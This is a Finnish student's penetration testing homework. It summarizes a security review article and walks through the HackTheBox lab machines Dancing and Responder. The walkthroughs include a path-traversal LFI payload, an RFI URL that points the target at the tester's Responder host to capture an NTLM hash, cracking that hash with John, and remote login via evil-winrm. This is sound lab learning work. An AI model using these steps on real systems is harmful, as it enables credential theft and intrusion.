# H7 Maalisuoralla
Kotitehtävä h7 Maalisuoralla Tero Karvisen Tunkeutumistestaus 2025 syksy -kurssille. [Linkki kurssisivulle](https://terokarvinen.com/tunkeutumistestaus/)
Jokaisessa kohdassa on alla olevalla "quote" tyylillä kerrottu tehtävänanto.
>Liirum laarum laa...

## Tehtävät

### x)
> Lue/katso ja tiivistä. (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva kustakin artikkelista. Kannattaa lisätä myös jokin oma ajatus, idea, huomio tai kysymys.)

> Karvinen 2025: [Start Your Research with a Review Article](https://terokarvinen.com/review-article)

- Internetistä helppo löytää akateemista materiaalia eri aiheista
    - JUFO:n kautta
    - Google scholarin

JUFO jäi itselle vielä vähän mysteeriksi. Oma käsitykseni tästä on se, että JUFO:n kautta pystyy tarkistamaan minkä tasoinen x julkaisemat tekstit ovat akateemisesti. 

> Review. Etsi vapaavalintainen review eli katsausartikkeli, joka liittyy kurssin aiheisiin.
Artikkelin pitää olla [JUFO-arvioidusta](https://jfp.csc.fi/jufoportaali) julkaisusta eli jufo-taso 1, 2 tai 3.
Mieluiten tuore, julkaisusta alle 2 vuotta.
Artikkeleita löytyy scholar.google.com/ncr
Jos artikkeli on pitkä, yli 4 sivua, voit perustaa tiivistelmäsi silmäilyyn, kunhan mainitset tästä tiivistelmässäsi.
Tiivistä sisältöä, älä pelkästään toista otsikoita tai puhu pelkkää metatekstiä. Väärin: "Jännittävä artikkeli rikollisuudesta Fobarstanissa, jossa on kiinnostava hyökkäys." Oikein: "Fobarstainin rikolliset ovat käyttäneet 2025 alkaen automurtoihin SnapBox-välimieshyökkäystä. Proof-of-concept on saatavilla Githubista..."

Lähdin etsimään artikkelia google scholarista "Cyber security review". Lähdin tutkimaan ensimmäistä artikkelia "[The recent trends in cyber security: A review](https://www.sciencedirect.com/science/article/pii/S1319157821000203)"



* Artikkelissa näytettiin matemaattisilla kaavoilla miten eri salausmetodit toimivat. 
* Artikkelissa kerrottiin "cache timing" hyökkäyksestä. Kyseisessä hyökkäyksessä hyökkääjä katsoi, kuinka kauan x salausmetodissa kestää ja sitä kautta saa sensitiivistä dataa.
* Kvanttiteknologia tuo niin hyötyjä kuin haittoja tulevaisuudessa. Se on kaksiteräinen miekka. Kvanttiteknologia tuo uusia vahvempia salausmetodeja, mutta samalla saamme yhtä vahvan murtajan näille uusille sekä vanhoille salausmetodeille. 

### a)

Latasin uusimman kali-imagen (2025.3) ja asensin sen tuttuun tapaan Virtualboxiin. Asennuksen jälkeen suoritin vielä seuraavat komennot `sudo apt update` sekä `sudo apt upgrade`. Tämän jälkeen latasin vielä kurssilla käyteyt työkäkalut, ffuf, sliver, metasploit, john the ripper, hashcat, nmap sekä seclist. Osa näistä oli jo asennettu defaultina kaliin.

### b)
> HTB Dancing. Ratkaise HackTheBox.com: [Starting Point:](https://app.hackthebox.com/starting-point) Tier 0: Dancing.

Aloitin tehtävän lataamalla VPN tiedoston, jotta pystyn yhdistämään kyseiseen koneeseen omalta virtuaalikoneeltani.



Ladattuani tiedoston siirsin sen virutaalikoneelleni, jonka jälkeen käytin komentoa `openvpn <tiedostonsijainti>`.



Tuli errori. Katsoin apua HTB:n forumilta ja kyseinen errori johtui siitä, että en suorittanut komentoa sudona, joten seuraavaksi suoritin sen sudona `sudo openvpn Desktop/testivpn.ovpn.`.

Käynnistin kohdekoneen HTB:ssa ja se antoi ip:n

Pingasin ip:n, yhteys toimii ja sain yhteyden kohdekoneeseen. 



#### Task 1
>What does the 3-letter acronym SMB stand for?

server message block

#### Task 2
> What port does SMB use to operate at?

445

#### Task 3
> What is the service name for port 445 that came up in our Nmap scan?

Runasin nmap komennon `sudo nmap -A -T4 -p- 10.129.105.170 -oA htb
`. Komento skannaa kohdekoneen jokaisen portin ja tallentaa tiedot `htb.` tiedostoihin. 



#### Task 4
> What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

Katsoin apua `smbclient --help` komennon avulla. Vastaus oli aika itsestäänselvä, ``-L``. 

#### Task 5
> How many shares are there on Dancing?



#### Task 6
>What is the name of the share we are able to access in the end with a blank password?

Vastaus on Workshares, koska siinä ei ole $ merkkiä (Ainaskin näin itse sen päättelin)



#### Task 7
> What is the command we can use within the SMB shell to download the files we find?



#### Task 8
> Submit root flag

Tässä kohtaa olin himean pihalla, että mistä tuo lippu pitäisi saada. Tulin kuitenkin päätelmään aikasemmista tehtävistä, että: yhdistä smb --> Workshares --> Lataa tiedostot.

Yritin uudestaan listata listata "sharet", mutta tuli tälläinen errori. Pingi kuitenkin toimi, mutta nmap ei löytänyt portteja.





Resetoinkin kohdekoneen, jos se auttaisi ongelmaan

Resetoinni jälkeen taas toimi.



Seuraavaksi yhdistinkin haavoittuvaiseen Shareen "WorkShares", jossa ei ollut salasanaa. 



Lähdinkin tutkimaan konetta.



Lippu löytyi James.P/ kansiosta. Siirsin tiedoston omalle koneelleni, jonka jälkeen katsoin tiedoston sisälle.



Sitten testasin flagia ja sain suoritettua Dancing koneen loppuun.



### c)
> HTB Responder. Ratkaise HackTheBox.com: [Starting Point](https://app.hackthebox.com/starting-point): Tier 1: Responder.

#### Task 1
> When visiting the web service using the IP address, what is the domain that we are being redirected to?

Kirjoitin koneen ip:n nettiselaimeen ja se uudelleenohjasi osoitteeseen unika.htb





#### Task 2
> Which scripting language is being used on the server to generate webpages?

Curlasin sivuston ja siellä näkyi PHP, jota käytetään juuri esimerkiksi nettisivuilla back-end puolella.



#### Task 3
> What is the name of the URL parameter which is used to load different language versions of the webpage?

Tässä kohtaa olin himean pihalla, joten päätin katsoa "Official Writeup" kyseisestä boksista. Ongelma on, että kyseinen kone on sellainen, jonka ip hostaa monta nettisivua, joten pelkkä ip:n laittaminen ei riitä. Tätä varten suoritin komennon `echo "10.129.95.234 unika.htb" | sudo tee -a /etc/hosts
`. Nyt sivusto näkyy ja saan jatkettua tehtävää.

Tehtävä oli etsiä url parametri, jolla ladataan eri kielet. Vaihdoinkin oikeasta yläkulmasta en --> fr (french) ja url muuttui. 



Vastaus on page

#### Task 4 
> Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

Vastaus on `../../../../../../../../windows/system32/drivers/etc/hosts`. Path traversalin avulla voidaan päästä käsiksi x koneen tiedostoihin. Testasin tätä vielä nettisivulle ja siellä avautui koneen "hosts" tiedosto.



#### Task 5
> Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

Tässä "exploitissa" kerromme nettisivulle, että suorita x tiedosto/skripti tästä osoitteesta. Vastaus on siis `//10.10.14.6/somefile`.

#### Task 6 
> What does NTLM stand for?

Tästä lyhenteestä en ollut ikinä kuulutkaan. Googletin "ntlm meaning" ja menin Crowdstriken sivulle https://www.crowdstrike.com/en-us/cybersecurity-101/identity-protection/windows-ntlm/. NTLM on lyhenne windows "New Technology LAN Manager". 

#### Task 7 
> Which flag do we use in the Responder utility to specify the network interface?

Katsoin responderin komennot `responder --help`.

#### Task 8
> There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

Vastaus on kurssilta tutuksi tullut "John The Ripper"

#### Task 9
> What is the password for the administrator user?

Lähdin testaamaan responder työkalua. Ensimmäiseksi testasin `sudo responder`, jonka jälkeen ohjelma antoi error messagen.

Sitten testasin komentoa `sudo responder -I eth0 -i 10.129.55.92
`. jossa -I määrittää miltä network interfacelta koneeni lähettää tietoja -i määrittämään osoitteeseen. Ohjelma lähti pyörimään, mutta tuli muutama error message

Katsoin uudestaan help pagea ja siellä annettiin mallikomento `responder -I eth0 -wd`. Suoritin komennon ja nyt ei tullut error viestejä.

Responder löysi DHCP serverin ja odottaa sieltä tulevia pyyntöjä. Odotin hetken ja mitään ei tapahtunut. Latasin uudestaan evika.htb sivun ja koitin myös 10.0.2.2 urlia, mutta mitään ei tapahtunut. Koitin myös urlia `http://unika.htb/index.php?page=//10.10.2.15/admin`, jossa 10.10.2.15 oli responderin antama "Responder ip".

Katsoin hieman apua "Official Writeupista". Muuten tajusin tehtävän oikein, mutta minulla oli väärä network interface käytössä. Minulla olisi pitänyt olla `tun0`, koska tätä kautta kulkee vpn liikenne (Ainakin näin käsitin sen). Suoritin nyt komennon uudelleen, mutta nyt oikealla Network interfacella `sudo responder -I tun0 -wd`. Sitten latasin `http://unika.htb/index.php?page=//10.10.14.178/admin` sivun uudelleen (nyt uusi ip) ja responder sai hashin.

Lähdin purkamaan kyseistä hashia johnin avulla



Murtamista oli mennyt jo muutama minuutti, joten päätin vaihtaa käytettävää wordlistia password.lst --> rockyou.txt



Nyt kesti noin sekuntti ja sain salasanan, badminton



#### Task 10
> We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

Lähdin porttiskannaamaan konetta (Olisi varmaan pitänyt tehdä heti ensimmäisessä kohdassa)



Vastaus tehtävään on  5985. Tarkoituksena on kuitenkin päästä koneeseen sisään, joten lähhdin selvittämään miten sinne pääsisi. 

Lähdin testaamaan serverin osoitetta+porttia



Jollain tavalla pitäisi yhdistää koneesen portin 5985 pyörivän ohjelman Microsoft HTTPAPI:n kautta. Googletin "how to connect to port 5985 on windows with linux" ja vastaan tuli kalin sivusto ohjelmalle "evil-winrm". Tämän avulla voimme koittaa yhdistää kyseiseen porttiin. Kyseinen ohjelma käyttää PSRP (Powershell Remoting Protocol).

Lähdin testaamaan kyseistä ohjelmaa

Katsoin tarkemmin task9, että mikä oli adminin salasana, jos se olisi väärin. Tajusin samalla, että käyttäjänimi ei ole "Admin" vaan "administrator". Testasin uudestaan oikealla käyttäjänimellä ja pääsin koneseen sisään

Nyt voin hyvällä omatunnolla laittaa oikean vastauksen kohtaan 10 ja lähteä etsimään flagia.

#### Task11
>Submit root flag

Lähdin katsomaan Administatorin kansioita, downloads, desktop, documents mutta nämä olivat tyhjiä. Seuraavaksi lähdin katsomaan onko koneella muita käyttäjiä. 

Menin mike käyttäjän kansioon ja siellä oli vain yksi kansio, Desktop. Pienen typon kautta menin kansioon, listasin tiedostot ja siellä oli "flag.txt". Tämän jälkeen katsoin, toimiiko powershellin oma "cat" komento `Get-Content` ja se toimi ja sain flagin. Testasin myös "cat", koska en muistanut toimiiko se powershellissä. 



Tässä ehkä fiksumpi tapa olisi ollut etsiä tiedostoa flag.txt, eikä manuaalisesti etsiä tiedostoa eri kansioista.

### d)
>  Vapaaehtoinen: Tilaa Google Scholarlista omaan alaasi liittyvät artikkelit sähköpostiin. Jo otsikoista saa hyvän käsityksen artikkeleista. Kun olet saanut muutaman viestin, muista tiukentaa filtteriä - haluat vain viestit jotka haluat.
Otin nämä aiheet nyt alkuun ilmoituslistalle.



### e)
>Vapaaehtoinen: HTB Academy. Kokeile HackTheBox Academyn ilmaista sisältöä.

Olen hieman jo suorittanut HTB Academya ja hankinkin sinne Student tilauksen. Tällä hetkellä suoritan polkua "Junior Cybersecurity Analyst".. 

# Lähteet
* https://terokarvinen.com/tunkeutumistestaus/
* https://help.hackthebox.com/en/articles/5185536-connection-troubleshooting
* https://www.crowdstrike.com/en-us/cybersecurity-101/identity-protection/windows-ntlm/
* https://www.kali.org/tools/evil-winrm/
* https://www.kali.org/tools/evil-winrm/
* https://www.sciencedirect.com/science/article/pii/S1319157821000203